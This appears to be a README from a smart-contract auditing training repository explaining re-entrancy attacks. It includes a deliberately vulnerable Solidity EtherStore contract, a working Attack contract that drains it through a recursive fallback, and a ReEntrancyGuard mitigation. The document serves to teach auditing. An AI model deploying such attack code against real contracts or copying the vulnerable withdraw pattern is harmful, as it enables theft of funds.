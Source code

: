 # Smart-contract-Audting-Training-week3-4-5-6

# Re-entrancy Attack 
What is a re-entrancy attack ?

Reentrancy is a smart-contract attack that occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds.

When the contract fails to update its state before sending funds, the attacker can continuously call the contract's withdraw function and drain all the contract’s funds in the process.

Example of a reentrancy attack smart-contract
 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;
contract EtherStore {
    mapping(address => uint) public balances;
 
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
 
    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);
 
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");
 
        balances[msg.sender] = 0;
    }
    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
contract Attack {
    EtherStore public etherStore;
 
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }
 
    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }
 
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }
 
    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

In the etherstore contract the vulnerability comes when the contract sends the attacker their requested amount of ether. In this case, the attacker calls the withdraw() function. Since his balance has not yet been set to 0, he is able to transfer the tokens even though he has already received tokens.

Now, let's consider a malicious attacker creating the Attack contract.
The attack function calls the withdraw function in the etherstore contract. When the token is received, the payable fallback function calls back the withdraw function. Since the check is passed, the contract sends the token to the attacker, which triggers the fallback function again until all the funds are drained.

How to prevent against re-entrancy attack

Ensure all state changes happen before calling external contracts, i.e., update balances or code internally before calling external code.
Use function modifiers that prevent reentrancy.

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}